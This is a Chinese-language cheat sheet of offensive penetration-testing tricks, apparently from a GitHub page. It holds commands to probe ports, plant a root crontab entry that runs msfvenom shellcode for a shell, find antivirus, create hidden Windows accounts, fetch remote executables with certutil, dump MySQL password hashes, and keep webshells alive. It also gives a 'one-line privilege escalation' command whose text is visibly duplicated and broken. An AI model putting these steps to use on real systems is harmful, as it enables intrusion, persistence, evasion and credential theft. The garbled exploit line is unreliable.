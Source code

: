 # 奇淫技巧

1. 验证是否为docker环境

```bash
ls -alh /.dockerenv
```

2. ifconfig命令找不到，查看IP

```bash
cat /etc/hosts
```

3. curl探测端口

```bash
curl http://192.168.16.1:[1-100] 1> 1.txt 2>/dev/null
curl http://192.168.16.1:[8000-9999] 1>> 1.txt 2>/dev/null
```

4. 写计划任务拿shell

```bash
echo  "* *     * * *   root   python –c \" [msfvenom生成的代码]\"" >> /etc/crontab
```

5. URL后添加目录名访问后，自动加上`/`，说明目录存在
6. `w`命令查看当前登录用户
7. `last`命令查看登录记录
8. windows-JuicyPotato提权-MS16-075
9. web后门生成-weevely工具
10. 使用icon_hash="hash"查找隐形资产
11. wooyun镜像库搜索历史漏洞
12. 抓包auth参数校验，base64
13. 内存马优于webshell，webshell上线后立马用cs上线
14. windows创建隐藏账户，或激活guest更隐蔽
15. smb445登录windows
16. 任意文件读取，读日志文件
17. 上传web.config运行asp代码
18. CS读取进程 利用进程的绑定，避免shell被干掉
19. PHPINFO信息收集，网站根路径
20. windows查找杀软

```cmd
wmic /node:localhost /namespace:\\root\SecurityCenter2 path AntiVirusProduct Get DisplayName | findstr /V /B /C:displayName || echo No Antivirus installed
```

21. windows下，文件命名不能存在空格，以此构造文件名`xxx.php. (空格)`上传
22. linux一句话提权

```bash
printf "install uprobes /bin/sh" > exploit.conf; MODPROBE_OPTIONS="-C exploit.conf" staprun -u whatever exploit.conf" staprun -u whatever> exploit.conf; MODPROBE_OPTIONS="-C
```

23. 善用msf的auxiliary/server/socks4a模块建立socks代理，配合proxychains使用
24. windows下，使用Certutil.exe（or powershell）下载远程文件

```bash
certutil.exe -urlcache -split -f http://ip/test.exe /var/www/html/test.exe
```

25. MYSQL获取密码

```bash
#方式一
查看F:\MySQL\data\mysql下的user.MYD文件，010打开，寻找hash值，带星号的为40位哈希值，解密

#方式二
user.MYD/user.frm/user.MYI三个文件替换本地文件
然后
cd bin
mysqld --skip-grant-tables
-----------------------
另起一个cmd
mysql -u root
select user,password from mysql.user;
```

26. `/var/log/lastlog`和`/var/log/wtmp`这两个文件有记录登录ip
27. 